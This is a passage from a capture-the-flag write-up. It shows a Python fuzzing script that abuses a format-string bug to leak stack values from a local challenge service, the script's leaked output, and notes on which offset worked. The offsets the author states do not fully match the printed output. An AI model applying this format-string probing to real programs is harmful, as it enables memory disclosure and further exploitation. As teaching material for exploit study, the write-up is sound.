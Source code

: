 ```python

# Print each value with its index for easier analysis
for i in range(leak_count):
    print(f"Leaked value at %<{i}$p>: {leaked_values[i]}")

# Close the process after testing
io.close()
```
{% endcode %}

We run that and see our `AAAA` lands at various offsets, e.g. `8`, `10`, `12` etc.

{% code overflow="wrap" %}
```bash
python fuzz.py REMOTE 127.0.0.1 1339
[+] Opening connection to 127.0.0.1 on port 1339: Done
[+] Receiving all data: Done (565B)
[*] Closed connection to 127.0.0.1 port 1339
Leaked value at %<0$p>: Your
Leaked value at %<1$p>: floor
Leaked value at %<2$p>: mat
Leaked value at %<3$p>: will
Leaked value at %<4$p>: be
Leaked value at %<5$p>: shipped
Leaked value at %<6$p>: to:
Leaked value at %<7$p>: AAAA
Leaked value at %<8$p>: 0x1
Leaked value at %<9$p>: AAAA
Leaked value at %<10$p>: 0x1
Leaked value at %<11$p>: AAAA
Leaked value at %<12$p>: 0x7f18eef14887
Leaked value at %<13$p>: AAAA
Leaked value at %<14$p>: 0x24
Leaked value at %<15$p>: AAAA
Leaked value at %<16$p>: (nil)
Leaked value at %<17$p>: AAAA
Leaked value at %<18$p>: 0x7ffc002c8238
Leaked value at %<19$p>: AAAA
Leaked value at %<20$p>: 0x100000000
Leaked value at %<21$p>: AAAA
Leaked value at %<22$p>: (nil)
Leaked value at %<23$p>: AAAA
Leaked value at %<24$p>: 0x600000000
Leaked value at %<25$p>: AAAA
Leaked value at %<26$p>: 0x2431252041414141
Leaked value at %<27$p>: AAAA
Leaked value at %<28$p>: 0x2520414141412070
```
{% endcode %}

Not all of these offsets will work. I tried `8` and it didn't work but `10` did. You should be able to automate this stage as well but I couldn't get it working (I don't do pwn challenges anymore xD).
